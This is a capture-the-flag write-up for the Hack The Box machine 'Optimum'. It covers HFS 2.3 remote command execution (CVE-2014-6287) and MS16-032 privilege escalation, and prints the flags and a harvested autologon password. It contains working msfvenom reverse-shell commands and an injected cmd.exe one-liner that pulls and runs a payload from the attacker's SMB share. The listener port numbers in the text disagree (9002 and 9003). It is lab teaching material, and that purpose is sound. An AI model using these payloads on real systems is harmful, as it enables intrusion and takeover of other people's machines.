


+++
title = "Optimum"
date = "2023-12-13"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2017-03-18

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`, while the target machine's IP address will be `10.10.10.8`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Optimum using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.10.8 -p-
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the service associated with the open port we found.

```sh
❯ nmap -sS 10.10.10.8 -p 80 -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so `nmap` managed to determine that Optimum is running Windows. That's good to know!

Aside from that, `nmap` found a single open port: `80/tcp`, used by HttpFileServer.

If we search online, we find:

> HTTP File Server, otherwise known as HFS, is a free web server specifically designed for publishing and sharing files. The complete feature set differs from other web servers; it lacks some common features, like CGI, or even ability to run as a Windows service, but includes, for example, counting file downloads. It is even advised against using it as an ordinary web server.
>
> — [Wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)

## Scripts

Let's run `nmap`'s default scripts on this service to see if they can find additional information.

```sh
❯ nmap -sS 10.10.10.8 -p 80 -sC
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
|_http-title: HFS /
<SNIP>
```

So `nmap`'s scans found that the title of the default web page is 'HFS /', wich confirms that this port is used by HFS.

Let's explore it!

## HFS (port `80/tcp`)

Let's browse to `http://10.10.10.8` and we see what we get.



So this website definitely corresponds to HFS. It looks like we have the possiblity to perform a few actions, like logging in, browsing files and folders, and searching for a specific file. However, it doesn't contain any file or folder.

At the bottom, there's also a 'Server Information' section indicating that this website is using HttpFileServer version `2.3`.

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://10.10.10.8 -I
```

```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 3835
Accept-Ranges: bytes
Server: HFS 2.3
Set-Cookie: HFS_SID=0.538142098579556; path=/; 
Cache-Control: no-cache, no-store, must-revalidate, max-age=-1
```

The `XServer` confirms what we found on the website, HFS is running version `2.3`.

### Technology lookup

While we're at it, let's look up the technologies used by this website with the [Wappalyzer](https://www.wappalyzer.com/) extension.



It identifies the use of jQuery.

### Known CVEs

The UI looks really outdated, and if we search online we find that the release date for this version is [February 17, 2014](https://www.neowin.net/software/hfs---http-file-server-23-build-288/). It must be vulnerable to some CVEs! Let's search [ExploitDB](https://www.exploit-db.com/) for `HttpFileServer`.

We find one exploit that matches the version of the HFS instance: [Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)](https://www.exploit-db.com/exploits/49125) ([CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287)). This looks really promising!

# Foothold ([CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287))

[CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) is a vulnerability in Rejetto HTTP File Server version `2.3`. The issue lies specifically in the `findMacroMarker` function, used to locate the boundaries of macros within configuration files. This function is vulnerable to a null-byte injection attack, meaning that we can inject a null byte `%00` into a configuration file, which would cause the function to terminate prematurely. This would allow us to inject arbitrary commands into the configuration file, which would be executed by the server.

The page we found gives us a ready-made Python script to execute a command on the target machine, but it shouldn't be too hard to exploit it manually, so I'll opt for the manual approach.

## Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Then I'll use `msfvenom` to create the reverse payload.

```sh
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=9001 -f exe -o /workspace/server/revshell.exe
```

## Exploitation

Now let's exploit this CVE to obtain a reverse shell.

Our goal is to download `revshell.exe`, place it in `C:\tmp\`, and execute it. We can use this one-liner for this:

```cmd
cmd.exe /c "mkdir C:\tmp & copy \\10.10.14.5\server\revshell.exe C:\tmp\revshell.exe & C:\tmp\revshell.exe"
```

To execute a command, we must specify the value `%00{{.exec|<COMMAND>.}}` to the GET parameter `search`, where `<COMMAND>` is the command we want to execute.

Let's fill in our reverse shell payload, URL encode the `search` value, and use `curl` to send the request:

```sh
❯ curl http://10.10.10.8/?search=%00%7B%7B.exec%7Ccmd.exe%20%2Fc%20%22mkdir%20C%3A%5Ctmp%20%26%20copy%20%5C%5C10.10.14.5%5Cserver%5Crevshell.exe%20C%3A%5Ctmp%5Crevshell.exe%20%26%20C%3A%5Ctmp%5Crevshell.exe%22.%7D%7D -s
```

If we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49164
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

It successfully caught the reverse shell! Nice!

# Local enumeration

If we run `whoami`, we see that we got a foothold as `kostas`.

## Version

Let's gather some information about the Windows version of Optimum.

```cmd
C:\Users\kostas\Desktop> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ProductName    REG_SZ    Windows Server 2012 R2 Standard
```

Okay, so this is Windows Server 2012!

```cmd
C:\Users\kostas\Desktop> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    CurrentBuildNumber    REG_SZ    9600
```

And this is build `9600`.

This version of Windows is somewhat recent, but maybe there are missing hotfixes. We'll check that later, if we can't find another way to get `NT AUTHORITY\SYSTEM`.

## Architecture

What is Optimum's architecture?

```cmd
C:\Users\kostas\Desktop> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE    REG_SZ    AMD64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Windows Defender

Let's check if Windows Defender is enabled.

```cmd
C:\Users\kostas\Desktop> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender" /v ProductStatus
```

```
ERROR: The system was unable to find the specified registry key or value.
```

Nothing!

## AMSI

Let's check if there's any AMSI provider.

```cmd
C:\Users\kostas\Desktop> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\AMSI\Providers"
```

```
ERROR: The system was unable to find the specified registry key or value.
```

As for Windows Defender, there's nothing.

## Firewall

Let's see which Windows Firewall policies profiles are enabled.

```cmd
C:\Users\kostas\Desktop> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy" /s /v EnableFirewall
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile
    EnableFirewall    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile
    EnableFirewall    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile
    EnableFirewall    REG_DWORD    0x1

End of search: 3 match(es) found.
```

Okay, so all Firewall profiles are enabled. It shouldn't hinder our progression too much though: since we alreay managed to obtain a reverse shell, the protections should be really basic.

## NICs

Let's gather the list of connected NICs.

```cmd
C:\Users\kostas\Desktop> ipconfig /all
```

```
   Host Name . . . . . . . . . . . . : optimum
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-6A-50
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.8(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{99C463C2-DC10-45A6-9CC8-E62F160519AE}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

Looks like there's a single network.

## Local users

Let's enumerate all local users using `PowerView`.

```cmd
C:\Users\kostas\Desktop> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroupMember -GroupName Users | Where-Object { $_.MemberName -notmatch 'NT AUTHORITY' } | Select-Object GroupName, MemberName, SID | Format-Table"
```

```
GroupName MemberName     SID                      
--------- ----------     ---                      
Users     OPTIMUM\kostas S-1-5-21-605891470-2991919448-81205106-1001
```

It looks like there's only us, `kostas`.

## Local groups

Let's enumerate all local groups, once again using `PowerView`.

```cmd
C:\Users\kostas\Desktop> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroup | Select-Object GroupName, Comment | Format-Table | Out-String -Width 4096"
```

```
GroupName                           Comment                                
---------                           -------                                
Access Control Assistance Operators Members of this group can remotely query authorization attributes and permissions for resources on this computer.
Administrators                      Administrators have complete and unrestricted access to the computer/domain
Backup Operators                    Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
Certificate Service DCOM Access      Members of this group are allowed to connect to Certification Authorities in the enterprise
Cryptographic Operators             Members are authorized to perform cryptographic operations.
Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this machine.
Event Log Readers                   Members of this group can read event logs from local machine
Guests                              Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of Hyper-V.
IIS_IUSRS                           Built-in group used by Internet Information Services.
Network Configuration Operators      Members in this group can have some administrative privileges to manage configuration of networking features
Performance Log Users               Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer
Performance Monitor Users           Members of this group can access performance counter data locally and remotely
Power Users                         Power Users are included for backwards compatibility and possess limited administrative powers
Print Operators                     Members can administer printers installed on domain controllers
RDS Endpoint Servers                Servers in this group run virtual machines and host sessions where users RemoteApp programs and personal virtual desktops run. This group needs to be populated on servers running RD Connection Broker. RD Session Host servers and RD Virtualization Host servers used in the deployment need to be in this group.
RDS Management Servers              Servers in this group can perform routine administrative actions on servers running Remote Desktop Services. This group needs to be populated on all servers in a Remote Desktop Services deployment. The servers running the RDS Central Management service must be included in this group.
RDS Remote Access Servers           Servers in this group enable users of RemoteApp programs and personal virtual desktops access to these resources. In Internet-facing deployments, these servers are typically deployed in an edge network. This group needs to be populated on servers running RD Connection Broker. RD Gateway servers and RD Web Access servers used in the deployment need to be in this group.
Remote Desktop Users                Members in this group are granted the right to logon remotely
Remote Management Users             Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
Replicator                          Supports file replication in a domain
Users                               Users are prevented from making accidental or intentional system-wide changes and can run most applications
WinRMRemoteWMIUsers__               Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
```

Looks classic.

## User account information

Let's gather more information about us.

```cmd
C:\Users\kostas\Desktop> net user kostas
```

```
User name                    kostas
Full Name                    kostas
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            18/3/2017 1:56:19
Password expires             Never
Password changeable          18/3/2017 1:56:19
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   31/12/2023 6:46:58

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
<SNIP>
```

We don't belong to interesting groups.

## Home folder

If we check our home folder, we find the user flag on our Desktop. Let's retrieve its content.

```cmd
C:\Users\kostas\Desktop> type C:\Users\kostas\Desktop\user.txt
```

```
d7e97b57ac8f67651cb27cd21d58ed9b
```

We also find a `hfs.exe` file, which probably corresponds to the version that was running on the port `80/tcp`.

If we check our Downloads folder, we also find a `hfs2.3_288.zip` file. This must be the archive containing the `hfs.exe` file.

## Command history

If we look for a command history file, we find none.

## Tokens

Let's now focus on our tokens.

Which security groups are associated with our access tokens?

```cmd
C:\Users\kostas\Desktop> whoami /groups
```

```
GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

Unfortunately, there's nothing that we can abuse.

What about the privileges associated with our access tokens?

```cmd
C:\Users\kostas\Desktop> whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

There's nothing that we can leverage to elevate our privileges.

## Shares

Let's list the SMB shares available on Optimum, using the same version of `PowerView` as before.

```cmd
C:\Users\kostas\Desktop> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetShare | Select-Object Name, Remark | Format-Table"
```

```
Name   Remark
----   ------
ADMIN$ Remote Admin
C$     Default share
IPC$   Remote IPC
```

So there's only default administrative shares.

## Environment variables

Let's check the environment variables for our shell. Maybe we'll find something out of the ordinary?

```cmd
C:\Users\kostas\Desktop> set
```

```
ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\kostas\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=OPTIMUM
ComSpec=C:\Windows\system32\cmd.exe
FP_NO_HOST_CHECK=NO
HOMEDRIVE=C:
HOMEPATH=\Users\kostas
LOCALAPPDATA=C:\Users\kostas\AppData\Local
LOGONSERVER=\\OPTIMUM
NUMBER_OF_PROCESSORS=2
OS=Windows_NT
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
PROCESSOR_ARCHITECTURE=AMD64
PROCESSOR_IDENTIFIER=AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD
PROCESSOR_LEVEL=23
PROCESSOR_REVISION=3100
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
PUBLIC=C:\Users\Public
SESSIONNAME=Console
SystemDrive=C:
SystemRoot=C:\Windows
TEMP=C:\Users\kostas\AppData\Local\Temp
TMP=C:\Users\kostas\AppData\Local\Temp
USERDOMAIN=OPTIMUM
USERDOMAIN_ROAMINGPROFILE=OPTIMUM
USERNAME=kostas
USERPROFILE=C:\Users\kostas
windir=C:\Windows
```

There's nothing interesting.

## Listening ports

Let's see if any TCP local ports are listening for connections.

```cmd
C:\Users\kostas> netstat -ano | findstr /C:"LISTENING" | findstr /C:"TCP"
```

```
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       2776
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       580
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       388
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       680
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       708
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       476
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       480
  TCP    0.0.0.0:49157          0.0.0.0:0              LISTENING       488
  TCP    10.10.10.8:139         0.0.0.0:0              LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       580
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       388
  TCP    [::]:49153             [::]:0                 LISTENING       680
  TCP    [::]:49154             [::]:0                 LISTENING       708
  TCP    [::]:49155             [::]:0                 LISTENING       476
  TCP    [::]:49156             [::]:0                 LISTENING       480
  TCP    [::]:49157             [::]:0                 LISTENING       488
```

There's a few open ports, but nothing out of the ordinary.

What about UDP then?

```cmd
C:\Users\kostas> netstat -ano | findstr /C:"LISTENING" | findstr /C:"UDP"
```

Nothing!

## Processes

Let's check which processes are running.

```cmd
C:\Users\kostas> tasklist /svc
```

```
Image Name                     PID Services                                    
========================= ======== ============================================
System Idle Process              0 N/A                                         
System                           4 N/A                                         
smss.exe                       232 N/A                                         
csrss.exe                      332 N/A                                         
wininit.exe                    388 N/A                                         
csrss.exe                      396 N/A                                         
winlogon.exe                   440 N/A                                         
services.exe                   480 N/A                                         
lsass.exe                      488 SamSs                                       
svchost.exe                    552 BrokerInfrastructure, DcomLaunch, LSM,      
                                   PlugPlay, Power, SystemEventsBroker         
svchost.exe                    580 RpcEptMapper, RpcSs                         
dwm.exe                        672 N/A                                         
svchost.exe                    680 Dhcp, EventLog, lmhosts, Wcmsvc             
svchost.exe                    708 DsmSvc, gpsvc, iphlpsvc, LanmanServer,      
                                   ProfSvc, Schedule, SENS, ShellHWDetection,  
                                   Themes, Winmgmt                             
svchost.exe                    776 EventSystem, FontCache, netprofm, nsi,      
                                   W32Time, WinHttpAutoProxySvc                
svchost.exe                    840 CryptSvc, Dnscache, LanmanWorkstation,      
                                   NlaSvc, WinRM                               
svchost.exe                    964 BFE, DPS, MpsSvc                            
spoolsv.exe                    476 Spooler                                     
svchost.exe                    812 TrkWks, UALSVC                              
VGAuthService.exe              384 VGAuthService                               
vmtoolsd.exe                  1032 VMTools                                     
ManagementAgentHost.exe       1048 VMwareCAFManagementAgentHost                
svchost.exe                   1364 PolicyAgent                                 
dllhost.exe                   1460 COMSysApp                                   
WmiPrvSE.exe                  1620 N/A                                         
msdtc.exe                     1696 MSDTC                                       
taskhostex.exe                2084 N/A                                         
explorer.exe                  2188 N/A                                         
vmtoolsd.exe                  2732 N/A                                         
hfs.exe                       2776 N/A                                         
cmd.exe                       2156 N/A                                         
conhost.exe                   1664 N/A                                         
revshell.exe                   240 N/A                                         
cmd.exe                       1040 N/A                                         
conhost.exe                   2040 N/A                                         
tasklist.exe                   860 N/A
```

There's nothing unusual here... we find the `hfs.exe` process used for the website, and `revshell.exe` corresponding to our reverse shell.

## User autologon

Let's check the registry for user autologon entries.

```cmd
C:\Users\kostas\Desktop> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" 2>nul | findstr "DefaultUsername DefaultDomainName DefaultPassword"
```

```
    DefaultUsername    REG_SZ    kostas
    DefaultPassword    REG_SZ    kdeEjDowkS*
```

We found something! Apparently our user is configured to automatically log in upon system startup using the password `kdeEjDowkS*`.

Unfortunately we can't do anything with this information, so let's continue looking for a way to get `NT AUTHORITY\SYSTEM`.

## Credential manager

Let's check the credential manager for currently stored credentials. Maybe it contains something?

```cmd
C:\Users\kostas\Desktop> cmdkey /list
```

```
Currently stored credentials:

* NONE *
```

Nothing.

## `AlwaysInstallElevated`

Let's check if the `AlwaysInstallElevated` registry key is set.

```cmd
C:\Users\kostas\Desktop> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```
ERROR: The system was unable to find the specified registry key or value.
```

It isn't.

## Sherlock

Alright, I guess it's time to check for known exploits that might affect Optimum. I'm going to use [Sherlock](https://github.com/rasta-mouse/Sherlock) for that.

```cmd
C:\Users\kostas\Desktop> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\Sherlock.ps1; Find-AllVulns | Select-Object Title, MSBulletin, CVEID, VulnStatus | Format-Table | Out-String -Width 4096"
```

```
Title                                          MSBulletin CVEID                VulnStatus
-----                                          ---------- -----                ----------
User Mode to Ring (KiTrap0D)                   MS10-015   2010-0232            Not supported on 64-bit systems
Task Scheduler .XML                            MS10-092   2010-3338, 2010-3888 Not Vulnerable
NTUserMessageCall Win32k Kernel Pool Overflow   MS13-053   2013-1300            Not supported on 64-bit systems
TrackPopupMenuEx Win32k NULL Page              MS13-081   2013-3881            Not supported on 64-bit systems
TrackPopupMenu Win32k Null Pointer Dereference MS14-058   2014-4113            Not Vulnerable
ClientCopyImage Win32k                         MS15-051   2015-1701, 2015-2433 Not Vulnerable
Font Driver Buffer Overflow                      MS15-078   2015-2426, 2015-2433 Not Vulnerable
'mrxdav.sys' WebDAV                            MS16-016   2016-0051            Not supported on 64-bit systems
Secondary Logon Handle                         MS16-032   2016-0099            Appears Vulnerable
Windows Kernel-Mode Drivers EoP                MS16-034   2016-0093/94/95/96   Appears Vulnerable
Win32k Elevation of Privilege                  MS16-135   2016-7255            Appears Vulnerable
Nessus Agent 6.6.2 - 6.10.3                    N/A        2017-7199            Not Vulnerable
```

Okay, so Optimum appears to be vulnerable to three exploits. I'll choose the first one, [CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099).

If we search [ExploitDB](https://www.exploit-db.com/) for a PoC, we find a Metasploit module: [Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Secondary Logon Handle Privilege Escalation (MS16-032) (Metasploit)](https://www.exploit-db.com/exploits/40107) ([CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099)).

# Privilege escalation ([CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099))

[CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099) is part of [MS16-032](https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2016/ms16-032). This is a vulnerability in Microsoft Windows that allows local users to gain elevated privileges. The vulnerability resides in the Secondary Logon Service (S4L), which is responsible for handling user logon requests. S4L utilizes a mechanism called "security context virtualization" (SCV) to temporarily elevate the privileges of processes performing certain actions, such as accessing system resources. The flaw in SCV arises from improper handling of request handles, which are temporary tokens used to identify and manage user requests. We can exploit this flaw by crafting applications to trick S4L into granting elevated privileges to processes that don't deserve them.

## Preparation

I'll use the given Metasploit module to exploit this vulnerability. It can be found at `exploit/windows/local/ms16_032_secondary_logon_handle_privesc`.

Since this is a local privilege escalation exploit, it requires a metepreter session to run. Therefore, I'll turn my standard reverse shell into a meterpreter one:

```sh
❯ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.5 LPORT=9002 -f exe -o /workspace/server/meterpreter_revshell.exe
```

I'll transfer it to Optimum, and then I'll configure `exploit/multi/handler` to catch the meterpreter shell.

Now I just need to execute `meterpreter_revshell.exe`, and I receive the connection on my listener:

```
[*] Started reverse TCP handler on 10.10.14.5:9002 
[*] Meterpreter session 1 opened (10.10.14.5:9002 -> 10.10.10.8:49161) at 2023-12-13 14:07:10 +0100

meterpreter >
```

Now we have a meterpreter session! Let's `background` it.

## Exploitation

Let's use the Metasploit module and configure it to use a `windows/x64/shell_reverse_tcp` payload.

I'm going to start a listener on port `9002`:

```sh
❯ rlwrap nc -lvnp 9002
```

```
listening on [any] 9002 ...
```

Now it's time to launch the exploit!

```sh
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[-] Handler failed to bind to 10.10.14.5:9002:-  -
[-] Handler failed to bind to 0.0.0.0:9002:-  -
<SNIP>
[*] Executing exploit script...
<SNIP>
[+] Executed on target machine.
<SNIP>
[*] Exploit completed, but no session was created.
```

I opened my own listener on port `9003`, this is why Metasploit failed to bind to this address. It looks like it successfully completed the exploit though:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49162
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

Let's confirm that we are `NT AUTHORITY\SYSTEM`:

```cmd
C:\Users\kostas\Desktop> whoami
```

```
nt authority\system
```

Great!

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag. As usual, we can find it on our Desktop!

```cmd
C:\Users\kostas\Desktop> type C:\Users\Administrator\Desktop\root.txt
```

```
b3a4357a6edbeb54b57fab931010b3df
```

# Afterwords


That's it for this box! I found the foothold to be easy to obtain, but the privilege escalation was a bit harder. Usually it's due to a misconfiguration of the box, not to a lack of updates, so it took me a while to find it.

Thanks for reading!
